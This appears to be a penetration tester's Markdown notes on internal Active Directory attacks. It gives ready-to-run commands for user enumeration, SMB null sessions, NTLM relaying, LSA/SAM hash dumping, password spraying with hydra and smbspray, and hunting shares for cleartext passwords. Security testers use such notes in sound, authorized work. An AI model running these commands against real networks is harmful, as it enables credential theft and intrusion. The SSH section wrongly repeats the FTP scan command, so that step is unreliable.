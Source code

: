 # Internal (Kali)

Starting with some [NMap Scans/Scripts](../tools/nmap.md) we can find plenty of other information for more targeted attacks and finding other attack paths/vectors. Then depending if we were given user credentials to perform a "compromised user" approach, we can go down other paths, but either way we would want to check for all of these with and without credentials.

***

## User Enumeration

Without already being given user credentials, we can try to find some using [Kerbrute](https://github.com/ropnop/kerbrute/releases), and [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py). These methods can be loud but still effective.

* [Kerbrute](https://github.com/ropnop/kerbrute/releases) - A little louder

```
wget https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_linux_amd64
```

```
./kerbrute_linux_amd64 userenum -d DOMAIN --dc DC-IP USERLIST.txt -v -o Outfile.txt
```

* [GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py) - Can be stealthy but not always.

```
GetNPUsers.py DOMAIN/ -usersfile USERLIST.txt -dc-ip DC-IP -no-pass
```

***

## SMB Null Sessions

I like to use [SMBCrunch](https://github.com/Raikia/SMBCrunch)(SMBHunt.pl), and [Netexec](https://github.com/Pennyw0rth/NetExec)

* [SMBCrunch](https://github.com/Raikia/SMBCrunch)

```
git clone https://github.com/Raikia/SMBCrunch.git && cd SMBCrunch
```

```
sudo ./smbhunt.pl -i ../445.txt
```

* [Netexec](https://github.com/Pennyw0rth/NetExec)

```
sudi netexec smb <target-ip> -u "" -p "" --shares
```

* View Null sessions with

```
sudo smbclient -L //target/share -U ""
```

***

## SMB Relays

If SMB Signing is not Required for multiple machines, we can attempt to abuse SMB Relays with [Responder](https://github.com/lgandx/Responder), [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) (From Impacket), and [Proxychains](https://github.com/haad/proxychains).

1. Disable SMB and HTTP in Responder.conf (/etc/responder/Responder.conf):

```bash
sudo sed -i 's/SMB = On/SMB = Off/g' /etc/responder/Responder.conf
```

```bash
sudo sed -i 's/HTTP = On/HTTP = Off/g' /etc/responder/Responder.conf
```

2. Change the proxychains config (/etc/proxychains4.conf)

```bash
sudo sed -i 's/9050/1080/g' /etc/proxychains4.conf
```

4. Use [NetExec](https://github.com/Pennyw0rth/NetExec) to generate a list of hosts that has SMB signing not required (--gen-relay-list)

```bash
sudo netexec smb up-hosts.txt --gen-relay-list relay.txt
```

5. Run [Responder](https://github.com/lgandx/Responder)

```
sudo python3 /usr/share/responder/Responder.py -I eth0 -PDv --lm
```

6. Run [NTLMRelayX](https://github.com/fortra/impacket/blob/master/examples/ntlmrelayx.py) in a new window/tab while Responder is running.

```
sudo python3 /usr/share/doc/python3-impacket/examples/ntlmrelayx.py -tf relay.txt -socks -smb2support -i -of relyed-hashes.txt
```

When we have capture relays, we can try and crack the captured hashed, but while we crack them we can abuse the relays using [NetExec](https://github.com/Pennyw0rth/NetExec).

* View Shares hosted on target machine

```bash
sudo proxychains4 netexec smb ip -u user -p '' --shares
```

* Dump LSA

```
sudo proxychains4 netexec smb ip -u user -p '' --lsa
```

Dump SAM hashes

```
sudo proxychains4 netexec smb ip -u user -p '' --sam
```

***

## General Enumeration

Finding Domain Controller IP. These aren't guaranteed but can be used in most cases.

* Using NSLookup

```
nslookup -type=SRV _ldap._tcp.dc._msdcs.<domain>
```

* Using DIG

```
dig _ldap._tcp.dc._msdcs.<domain> SRV
```

* Checking /etc/resolv.conf

```
cat /etc/resolv.conf
```

### Web Services

* Look at all http/https pages for login pages, information disclosure, default login credentials, robots.txt, and other directories.
* [Ffuf](https://github.com/ffuf/ffuf)&#x20;
  * Will need a fuzzling wordlist list, such as [Seclists](https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content)

```
sudo ffuf -recursion -mc all -ac -c -e https://domain/FUZZ -w wordlist.txt
```

```
sudo ffuf -recursion -mc all -ac -c -e .htm,.shtml,.php,.html,.js,.txt,.zip,.bak,.asp,.aspx,.xml -w wordlist.txt -u https://domain/FUZZ -fc 400,401,403,404,406,500,502 > domain.txt
```

### FTP

Checking if FTP is open, and if anonymous login is enabled.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

### SSH

Checking  if SSH is open and if it takes password authentication.

```
sudo nmap -p 21 --script ftp-anon -iL 21.txt
```

***

## Password Spraying

### SMB

* [SMBSpray](https://github.com/absolomb/smbspray)

```
git clone https://github.com/absolomb/smbspray.git && cd smbspray
```

```
python3 smbspray.py -u users.txt -p passwords.txt -ip DC-IP
```

### SSH

* Using [hydra](https://github.com/vanhauser-thc/thc-hydra)

```
hydra -L users.txt -P passwords.txt ssh://<target_ip>
```

***

## Post Exploitation

Once we have obtained credentials we can find even more info. I like to find more info from: [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump), Bloodhound ([Bloodhound.py](http://bloodhound.py/)), and [Manspider](https://github.com/blacklanternsecurity/MANSPIDER).

### Bloodhound / [Bloodhound-Python](http://bloodhound.py/)

```bash
sudo bloodhound-python -u USER -p PASSWORD -ns DNS Server -d DOMAIN -c All
```

Once we have the .json files, we can ingest them into bloodhound to look for domain admins, kerberoastable accounts, and more.

### [LDAPDomainDump](https://github.com/dirkjanm/ldapdomaindump)

```bash
sudo ldapdomaindump -u DOMAIN\\USER -p PASSWORD IP
```

### [ManSpider](https://github.com/blacklanternsecurity/MANSPIDER)

Crawl network shares to find any helpful info, such as files with cleartext passwords, password databases, and more.

* Install

```
pipx install git+https://github.com/blacklanternsecurity/MANSPIDER
```

* Search hostname/IP for files with "passw" in the name:

```
manspider TARGET -f passw -d DOMAIN -u USER -p 'PASSWORD'
```

* Search for documents containing passwords

```
manspider TAGRGET -c passw -d DOMAIN -u USER -p 'PASSWORD'
```

***

